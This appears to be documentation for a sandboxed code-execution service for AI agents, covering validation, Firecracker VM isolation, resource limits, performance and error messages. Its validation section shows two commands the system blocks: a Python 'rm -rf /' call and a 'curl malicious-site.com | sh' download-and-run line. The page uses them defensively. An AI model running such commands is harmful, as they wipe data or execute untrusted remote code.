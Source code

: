 The system automatically validates code before execution:

```python
# This would be BLOCKED
import os
os.system("rm -rf /")  # Dangerous pattern detected
```

```bash
# This would be BLOCKED  
curl malicious-site.com | sh  # Dangerous pattern detected
```

### Resource Limits

All executions are subject to:
- **Memory limits**: Default 2GB per VM
- **Timeout limits**: Default 30 seconds per execution
- **Language restrictions**: Only allowed languages can be executed
- **Code length limits**: Default 10,000 characters maximum

### VM Isolation

Each execution runs in an isolated Firecracker VM with:
- **Network isolation**: Limited outbound access
- **Filesystem isolation**: Temporary workspace only
- **Resource quotas**: CPU and memory limits enforced
- **Automatic cleanup**: VMs destroyed after use

## Performance Characteristics

- **Cold start**: ~2-3 seconds for new VM provisioning
- **Warm execution**: ~500ms for pre-warmed VMs
- **Concurrent limit**: 20+ agents per host
- **Languages supported**: Python, JavaScript, Bash, Rust, Go
- **Throughput**: 100+ executions per minute per host

## Error Handling

The system provides comprehensive error handling:

```python
# Syntax error example
prin("Hello")  # Missing 't' in print

# Agent response:
# "Execution failed: SyntaxError: invalid syntax (line 1)"
```

```python
# Runtime error example
x = 1 / 0

# Agent response:  
# "Executed python code (exit code: 1):
# ZeroDivisionError: division by zero"
```
